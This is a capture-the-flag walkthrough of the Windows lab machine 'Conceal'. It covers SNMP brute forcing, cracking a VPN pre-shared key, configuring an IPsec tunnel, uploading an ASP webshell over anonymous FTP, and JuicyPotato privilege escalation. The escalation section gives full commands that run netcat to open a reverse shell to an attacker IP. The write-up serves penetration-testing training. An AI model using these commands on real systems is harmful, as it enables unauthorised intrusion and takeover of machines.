


Conceal
| OS | Windows |
| Difficulty | Hard |
| Topics | UDP Scan SNMP, ISAKMP, VPN IPSec (Using Strongswan (IPSEC/VPN) [ipsec.secret/ipsec.conf]), PSK, Strongswan (IPSEC/VPN), File Upload via FTP (Malicious ASP file) [RCE], SeImpersonatePrivilege [Privilege Escalation], JuicyPotato |
📁 Folder Structure
content/— screenshots and inline references used in the write-upnmap/— raw nmap output filesexploit/— exploit scripts, binaries, payloads, and other tools used
Enumeration
Nmap
SYN Scan
** No results from TCP Scan **
UDP Scan
Result:
PORT STATE SERVICE REASON
161/udp open snmp udp-response ttl 127
500/udp open isakmp udp-response ttl 127
Note: From the scan above we specified only the top 500 ports most commonly used.
UDP Version and Script Scan
Result:
PORT STATE SERVICE VERSION
160/udp open|filtered sgmp-traps
500/udp open isakmp Microsoft Windows 8
| ike-version:
| vendor_id: Microsoft Windows 8
| attributes:
| MS NT5 ISAKMPOAKLEY
| RFC 3947 NAT-T
| draft-ietf-ipsec-nat-t-ike-02\n
| IKE FRAGMENTATION
| MS-Negotiation Discovery Capable
|_ IKE CGA version 1
Service Info: OS: Windows 8; CPE: cpe:/o:microsoft:windows:8, cpe:/o:microsoft:windows
From the result we can see more information coming from the port 500, we can see a Windows 8 OS running on the machine, also noticed the protocol ISAKMP associated with this port, which is commonly used for Internet Key Exchange (IKE) to manage encryption keys
Let’s first enumerate more the port 161, for this task we can use a tool such as *onesixtyone*, which will attempt a brute force attack against the server to determine the community string.
Command:
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt {IP} -w 100
So, basically we will pass a dictionary that contains the most common community strings for SNMP.
Execute:

From the above result we can see the community string public, which is a common community found on SNMP services.
Now, since we have a valid community string, let’s try to enumerate the information from MIB using snmp-walk:
Command use:
Execution:
Result:

From the output we can see a PSK key: 9C8B1A372B1878851BE2C097031B6E43
Let’s try to crack the hash on Crackstation.

Bingo! We have a clear text password, which also seems to be related to IKE VPN.
In summary:
PSK: 9C8B1A372B1878851BE2C097031B6E43 = Dudecake1!
Now let’s continue with port 500, for this task, we can use our famous Bible a.k.a Hacktricks😄
500/udp - Pentesting IPsec/IKE VPN
According to hacktricks, the IPSec configuration can be prepared only to accept one or a few transformations. A transformation is a combination of values. Each transform contains a number of attributes like DES or 3DES as the encryption algorithm, SHA or MD5 as the integrity algorithm, a pre-shared key as the authentication type, Diffie-Hellman 1 or 2 as the key distribution algorithm and 28800 seconds as the lifetime.
Then, the first thing that you have to do is to find a valid transformation, so the server will talk to you. To do so, you can use the tool ike-scan.
Based on this information, let’s try to enumerate the host using ike-scan:
General use:
Relevant arguments:
--dport=<p> or -d <p> Set UDP destination port to <p>, default=500
--verbose or -v Display verbose progress messages.
-multiline or -M Split the payload decode across multiple lines.
This option makes the output easier to read.
Proceed to enumerate the target machine:
Result:
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.10.116 Main Mode Handshake returned
HDR=(CKY-R=dfd36df4ab52b084)
SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)
Ending ike-scan 1.9.5: 1 hosts scanned in 0.085 seconds (11.77 hosts/sec). 1 returned handshake; 0 returned notify
As we can see in the previous response, there is a field called AUTH with the value PSK. This means that the vpn is configured using a preshared key (and this is really good for a pentester).
The value of the last line is also very important, in this case we have: 1 returned handshake; 0 returned notify
Explanation: 1 returned handshake; 0 returned notify - This means the target is configured for IPsec and is willing to perform IKE negotiation, and either one or more of the transforms you proposed are acceptable (a valid transform will be shown in the output).
Next step is to determine the Vendor information, for this, we can use again ike-scan to try to discover the vendor of the device.
Argument details:
--showbackoff[=<n>] or -o[<n>] Display the backoff fingerprint table.
Display the backoff table to fingerprint the IKE
implementation on the remote hosts.
Result:
IKE Backoff Patterns:
IP Address No. Recv time Delta Time
10.10.10.116 1 1675997998.233770 0.000000
10.10.10.116 Implementation guess: Linksys Etherfast
Based on the output we can see the vendor device identified as
This confirms that we are facing a VPN connection.
Foothold
After getting the essential information for this machine, we can try to connect to the VPN tunnel using the PSK key previously found.
PSK: 9C8B1A372B1878851BE2C097031B6E43 = Dudecake1!
For this task we can use strongswan, which is an Open-source, modular and portable IPsec-based VPN solution.
Install strongswan:
After the installation, 2 files should be created on folder /etc related to ipsec configurations:
Verify that IPSec files were created:
Result:

Edit: ipsec.secrets
Next step is to configure those files with the VPN information. Go to the /etc folder, and make the following edits in the ipsec.secrets file.
The file should contain the following information:
It should look like this:

Edit: ipsec.conf
Now, based on the initial enumeration performed using ike-scan we have to edit the file ipsec.conf with the information we found and define/create a new tunnel.
For this task, we will use the following template code:
conn tunnelName
auto= (ignore | add | route | start ; this specifies what operation, if any,
should be done automatically at IPsec startup)
keyexchange=ike (version of ike - 1 or 2)
type=(the type of the connection; currently the accepted values are two;
tunnel signifying a host-to-host, host-to-subnet, or subnet-to-subnet;
transport signifying host-to-host transport mode)
authby=(type of authentication - psk or secret)
ike= ( cipher - check the results from ikescan)
esp= ( cipher - check the results from ikescan)
left=(ip address of attacker machine - in this case, our kali IP)
right=(ip address of target machine - in this case, the target IP)
rightsubnet=(ip address of the target but including the transport type [tcp or udp])
Note: As a reference for this configuration you can check the offical strongswan documentation:
ipsec.conf: conn Reference - ipsec.conf: conn Reference - strongSwan
Let’s build our configuration based on the results from Ikescan:

For auto we will use the option start as this option loads a connection and brings it up immediately. For keyexchange we will use the ike version 1 as seen on the result from ikescan. For type we will use transport, as we want a host-to-host encryption For authby we will use PSK as seen on the result from the ikescan. For esp we will use the cipher 3DES along with SHA1, as seen on the result from ikescan. These ciphers are separated by dash line (-). For ike we will use again the ciphers 3DES,SHA1, but this time we specified the Diffie-Hellman (DH) group which is modp1024. For left and right, we just specify the IP from our machine (left) and the target machine (right). For rightsubnet again we just specify the IP for the target machine but including the transport type TCP.
The configuration should look like this:
conn mytunnel
auto=start
keyexchange=ikev1
type=transport
authby=psk
ike=3des-sha1-modp1024
esp=3des-sha1
left=10.10.16.4
right=10.10.10.116
rightsubnet=10.10.10.116[tcp]
Then proceed to reset the service for IPsec, and start the module strongswan (if not running):
Finally, start the tunnel:
We should be able to see a connection 'mytunnel' established successfully

This confirms that tunnel is UP.
After configuring successfult the VPN Tunnel between our kali and the target machine, we can start enumerating additional ports that were NOT publicly exposed to us at the beginning.
Let’s run another nmap scan but this time using the parameter -sT as we want a TCP Connect Scan:
From the output we will be able to see additional ports:
PORT STATE SERVICE
21/tcp open ftp
80/tcp open http
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
49668/tcp open unknown
We can see for instance, the ports 21, 80 which were not previously exposed on our first scan.
Now, let’s run a Full TCP Scan and Version Scan using the parameter -sCVT:
Result:
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
49668/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2023-02-24T03:08:10
|_ start_date: 2023-02-24T02:14:42
| smb2-security-mode:
| 311:
|_ Message signing enabled but not required
From the new output we can see that FTP allows Anonymous Login, and also we can see the IIS running on port 80, these 2 ports may be correlated.
Enumerate port 21:
First try to log into the FTP service to see any relevant content:
Log as Anonymous (with empty password):

Check data:

But it looks like that there are no files/folders available, however, we can check if we have permissions to upload files:
First, create a txt test file:

Then, try to upload the file (remember to set to BINARY mode using

Success!! We have permissions to upload files.
Enumerate Port 80:
Now, since the server is running a IIS, is it possible that our file uploaded is visible via HTTP Server. Let’s verify the HTTP Server (port 80):

We can see the default web page for IIS.
Commonly, when IIS is installed and there is an FTP server running, we will have a folder called <upload> or <uploads>, so, let’s try to check if this folder is accessible.
Check the URL:
Note: If we don’t find the folder/path, we can enumerate more using wfuzz or gobuster.
Content from: /upload


Nice! We can see our txt file, and also we can check the content.
In summary, we have access to upload files to the FTP, and those files can be accessed via HTTP.
With this in mind, we can now proceed to upload a Webshell and gain remote code execution:
Impotant: Since the server is running IIS, we should use only webshell with extension
asporaspx
First, let’s try to upload a asp webshell. For this task it is recommended to have a one liner reverse shell, we can find on Google good examples of one liners, for instance:

Check the first result, we will see the following one liner and the use mode:

Reverse shell code (one liner)
Then we just need to put this code into file with extension .asp and upload it:

Now, let’s try to access the file via HTTP:

However, it looks like the server returned an error, but this is because the file doesn’t contain content to display.
Check if we can execute commands adding the parameters ?cmd=command-to-execute

Success! We have Remote Command Execution.
Next step will be to generate a payload to have a reverse shell to our kali.
For this we can use the Powershell#3 (Base64) option from: https://www.revshells.com/
Generate the payload and paste it on the URL (make sure your payload is URL encoded):

Have ready a Netcat listener to catch the connection and execute the RCE:

Success! We have now a reverse shell connection.
Privilege Escalation
General System Information:

We can see that the OS is Windows 10 Enterprise.
Enumerate privileges assigned to the current user

We will see the privilege <SeImpersonatePrivilege> which is vulnerable to JuicyPotato
Exploit:
Proceed to download the binary JuicyPotato.exe and transfer the file using Certutil.exe to the target machine, also tranfer the binary nc.exe

Note: I recommend to download the files on path
C:\inetpub\wwwrootas we have permissions to write files there.
Execution:
Arguments:
Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port (could be a random port)
Optional args:
-a <argument>: command line argument to pass to program (default NULL)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
Command:
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.16.4 4443"
Note: For this execution, we’re not going to specify any CLSID. We leave it as default.
After the execution we got this result:

Looks like it didn’t work, but that’s because of the CLSID that was used. However, we can try to play with different CLSIDs to get the privilege escalation, for this we can refer to the following portal that contains multiple CLSIDs for different Windows versions:
As we have verified, this is a Windows 10 Enterprise, hence, we have to try with the CLSIDs for this system version.


Important: On the website, we need to look for the CLSIDs that give us access as
NT AUTHORITY\SYSTEM.
To specify the CLSID we just need to the argument -c "{CLSID}"
Let’s grab the first CLSID (for NT AUTHORITY SYSTEM) from the list <{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}>
New command:
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.16.4 4443" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
Note: It's important to include the CLSID in double quotes.
Execute (be ready to catch the reverse shell with a netcat listener):

If we have success, we will see the confirmation [+] CreateProcessWithTokenW OK at that time.
Done, we got access as NT AUTHORITY\SYSTEM